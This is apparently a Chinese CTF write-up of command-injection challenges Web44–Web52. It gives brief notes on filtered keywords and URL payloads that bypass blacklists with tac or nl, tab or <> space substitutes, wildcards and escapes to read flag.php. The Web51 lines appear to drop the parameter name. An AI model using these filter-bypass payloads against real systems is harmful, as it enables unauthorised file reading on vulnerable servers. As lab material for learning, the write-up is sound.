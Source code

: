 ![image.png](https://img03.mifile.cn/v1/MI_542ED8B1722DC/bf4fec03ca7f580f7ac7420b62aa938c.png)

## Web44：

![image.png](https://img07.mifile.cn/v1/MI_542ED8B1722DC/e1d28502a246f2b7688b65098fa46546.png)

解题思路：与42，43差不多，不过是过滤了falg和cat。

## Web45：

![image.png](https://img07.mifile.cn/v1/MI_542ED8B1722DC/cb765abd357626a3b87cd5f696d14b36.png)

解题思路：；cat，flag，空格，数字，都被过滤掉了。

/?c=tac%09fl??.php||

/?c=tac%09fl??.php%26

## Web46,47,48,49：

![image.png](https://img07.mifile.cn/v1/MI_542ED8B1722DC/b00501346fdab0d1f8b933a5f23015c9.png)

解题思路：同上。

/?c=tac%09fl??.php||

## Web50:

![image.png](https://img07.mifile.cn/v1/MI_542ED8B1722DC/641fc3c41bf17b390f1a0cdc5c2f0995.png)

解题思路：这里和前面差不多，但是%09也被过滤了，但空格不只有这个可以替代，也可以使用\<\>代替，但这里需要注意如/?c=tac\<\>fl??.???||是会失败的，这是因为\<\>不能和？一起出现否则会失败的。应该是这样的/?c=tac\<\>fla\g.php||

![image.png](https://img07.mifile.cn/v1/MI_542ED8B1722DC/e54b7394bb90f9886233d32ffd9cea08.png)

## Web51：

![image.png](https://img08.mifile.cn/v1/MI_542ED8B1722DC/76a14cd71504468d171b974dda625a79.png)

解题思路：同上。

/?ca\t\<\>fla\g.php||

/?nl\<\>fla\g.php||

![image.png](https://img07.mifile.cn/v1/MI_542ED8B1722DC/35ddf57f1aa61c9f25e9746afebaf49a.png)

## Web52:

![image.png](https://img06.mifile.cn/v1/MI_542ED8B1722DC/41afa333506e4d933e0246326b86665d.png)
